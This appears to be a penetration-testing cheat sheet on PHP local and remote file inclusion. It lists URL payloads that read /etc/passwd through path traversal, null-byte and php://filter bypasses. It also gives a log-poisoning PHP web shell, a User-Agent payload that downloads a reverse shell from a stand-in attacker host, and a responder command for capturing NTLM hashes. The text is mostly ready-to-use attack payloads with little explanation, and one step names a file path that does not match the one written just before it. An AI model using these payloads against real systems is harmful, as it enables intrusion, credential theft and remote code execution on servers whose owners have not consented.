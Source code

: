 ## Local file inclusion (LFI)

Basically occurs when a php web page take an other page to display in parameter.

***Example :***  
https://example.com/index.php?page=foo.php


#### Vulnerabilities
Vulnerabilities can be found using some parameter modifications

https://example.com/index.php?page=/etc/passwd
https://example.com/index.php?page=
https://example.com/index.php?page=./



### Filters

- Absolute path bypass
https://example.com/index.php?page=../../../../etc/passwd

- Extension bypass
https://example.com/index.php?page=../../../../etc/passwd%00

- Base64 bypass
https://example.com/index.php?page=php://filter/read=convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/read=convert.base64-encode/resource=./../../etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=./../../etc/passwd  

## LFI2RCE / Log Poisonning

If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that file

## Remote file inclusion from log poisonning (RCE)
```php
User-Agent: <?php file_put_contents('/tmp/reverse_shell.php', file_get_contents('http://ATTAQUER_IP:ATTACKER_PORT/reverse_shell.php'))?>
```
Then go to /rev.php to start the reverse shell
In order to work, the php have to be in cleartext when it's read by the webpage  
e.g. if it appears in b64, nothing will work

# Remote file Inclusion

## Tools
- responder

### Responder

The `responder` utilisty can catch requests from many fake created servers such as `HTTP`  
This can sometimes leads to NTLM leaks

***Usage :***  
To start responder, you must select an interface 
```bash
responder -I INTERFACE_NAME
```